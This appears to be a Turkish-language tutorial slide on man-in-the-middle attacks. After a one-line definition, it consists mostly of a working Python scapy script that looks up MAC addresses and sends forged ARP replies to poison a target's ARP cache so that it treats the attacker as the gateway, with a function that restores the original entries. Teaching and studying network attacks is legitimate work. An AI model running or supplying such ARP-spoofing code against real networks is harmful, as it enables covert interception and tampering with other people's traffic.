

# Man in the middle
MITM : Saldırganın birbiri ile doğrudan iletişim kuran iki taraf arasındaki iletişimi gizlice ilettiği veya değiştirdiği saldırı türüdür.
#Kütüphaneler tanımlandı.
import scapy.all as scapy
import time
import optparse
#Modemin cihaz,cihazın ise modem olarak algılamasını sağlamaya çalışıyoruz.
def get_mac_address(ip):
    arp_request_packet = scapy.ARP(pdst=ip) #ARP PAKETİ OLUŞTURDUK
    broadcast_packet = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")

    combined_packet = broadcast_packet/arp_request_packet #2 paketi bir paket haline getirir.
    (answered_list)= scapy.srp(combined_packet,timeout=1,verbose=False)[0]
    #answered_list.summary() #Özet gösterme Scapy metoduna özel
    return (answered_list[0][1].hwsrc)  #Mac adresini geri döndürür.

def arp_poisoning(target_ip,modem_ip):
    target_mac = get_mac_address(target_ip)
    arp_response = scapy.ARP(op=2,pdst=target_ip,hwdst=target_mac,psrc=modem_ip)
    scapy.send(arp_response,verbose=False) #Verbose sürekli send mesajı göndermesini engeller.
    #scapy.ls(scapy.ARP()) #op,pdst,hwdst,psrc gibi değerleri görmemizi sağlar.

def reset(target1_ip,modem1_ip):

    target_mac = get_mac_address(target1_ip)
    gateway_mac = get_mac_address(modem1_ip)

    arp_response = scapy.ARP(op=2,pdst=target1_ip,hwdst=target_mac,psrc=modem1_ip,hwsrc=gateway_mac)
    scapy.send(arp_response,verbose=False)